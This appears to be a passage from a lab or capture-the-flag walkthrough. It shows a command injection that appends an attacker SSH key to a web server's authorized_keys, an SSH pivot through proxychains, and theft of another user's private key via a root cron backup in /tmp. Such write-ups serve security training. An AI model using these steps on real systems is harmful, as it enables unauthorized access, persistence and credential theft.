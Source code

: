 Step 7. Run the ssh key gen command on ops-station. When prompted for location to save just press enter to leave default, you can press enter for password as well -> run `ssh-keygen -t rsa`

Step 8. After generating ssh key look for public key in your .ssh folder. Your public key will have .pub as the extension run `cat ~/.ssh/id_rsa.pub`

Step 9. Echo ssh key to the authorized_keys file in the users .ssh folder. `;echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUuzyRZfQxZoXMjFAANpRysa0Lcr7ITtYGd+CSGPIBoxUXokTTon2Pye19TNMQ8dz/ttd7jng3mSSAwkxPtWhWVhjm6vYiwt/rKELaLVFPESyLn6aU5NcYTMDQoSodUBFuUl1KXgxVleWNJPUm2vCXGlrmhEVU1ElGigRIb3MEqSVNEazdDehHv9m9pz/+eLiwWCk7dUpKxUup8fd2QMqzBNzgRO+NMSzeJemv0A5vs1mLTSaR1BZpH+tIPIRzc3T4+8uQf3BAHg1lcz1CFwo0nsTSs/+KouRCae03dbc/+Ck5pUDlsuqyvmkgRyvcZrO43mCHiOkUa7Fdmx+en0CH" >> /var/www/.ssh/authorized_keys`

Step 10. Check that the keys were added `;cat /var/www/.ssh/authorized_keys`

Step 11. If you can see the results of the cat the keys were successfully added. From you linops now login to extranet using `proxychains ssh -p 2222 www-data@192.168.28.100`

Step 12. Enumerate all files related to name resolutions -> `cd /etc`

Step 13. Enumerate all files related to name resolutions -> ` cat crontab`

    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.Enumerate all network items, relating to name resolution.

    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    #
    *  *    * * *   root    tar -C /home/comrade/ -czf /tmp/backup.tar.gz .ssh/


Step 14. untar the file from /tmp/backup.tar.gz .ssh/ using `tar -xvzf backup.tar.gz` frin /tmp folder

    Gives: 
        .ssh/
        .ssh/id_rsa.pub
        .ssh/id_rsa
        www-data@extranet:/tmp$ pwd
        /tmp
